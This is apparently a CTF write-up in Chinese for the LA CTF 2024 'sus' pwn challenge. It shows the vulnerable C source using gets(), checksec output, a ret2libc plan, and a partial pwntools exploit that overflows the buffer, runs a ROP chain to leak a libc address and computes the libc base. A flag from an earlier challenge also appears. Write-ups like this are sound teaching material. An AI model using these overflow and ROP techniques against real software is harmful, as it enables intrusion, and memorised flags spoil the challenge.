 `lactf{m0n7y_533_m0n7y_d0}`

### sus

`sus.c`
```clike
#include <stdio.h>

void sus(long s) {}

int main(void) {
  setbuf(stdout, NULL);
  long u = 69;
  puts("sus?");
  char buf[42];
  gets(buf);
  sus(u);
}
```

```
[*] '/home/ywc/myworkspace/lactf2024/sus/sus'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

沒有 pie 和 canary

這題很明顯的有 bof 漏洞，不過沒有 win 函式，需要 ret2libc 開 shell

要 leak libc 位置可以使用 `deregister_tm_clone` 來 leak，libc 中位置就會在 rax 的地方，再透過 puts 印出來即可

後面就是一般的 ret2libc，不過搞 libc 的問題搞很久，總之現在知道 `redpwn/jail` 的 libc 通常會在 `/srv` 起始的路徑下

`solve.py`
```python
from pwn import *
binary = "./sus_old"

context.terminal = ["cmd.exe", "/c", "start", "bash.exe", "-c"]
context.log_level = "debug"
context.binary = binary

conn = remote("chall.lac.tf", 31284)
# conn = process(binary)
# conn = gdb.debug(binary)

# 4010A0 deregister_tm_clones
# .text:000000000040117C                 mov     rdi, rax        ; s
# .text:000000000040117F                 call    _puts
# 0x0000000000401016 : ret
dtm_clone = 0x4010A0
ret = 0x401016
bss = 0x404028

chain = flat([
    dtm_clone,
    0x40117C,
])
conn.sendlineafter(b"sus?\n", b"A"*0x40 + p64(bss+0x900) + chain)
leak = u64(conn.recvline().strip().ljust(8, b"\x00"))
print(f"Leak: {hex(leak)}")
libcbase = leak - 0x1d3760
print(f"Libc base: {hex(libcbase)}")
```
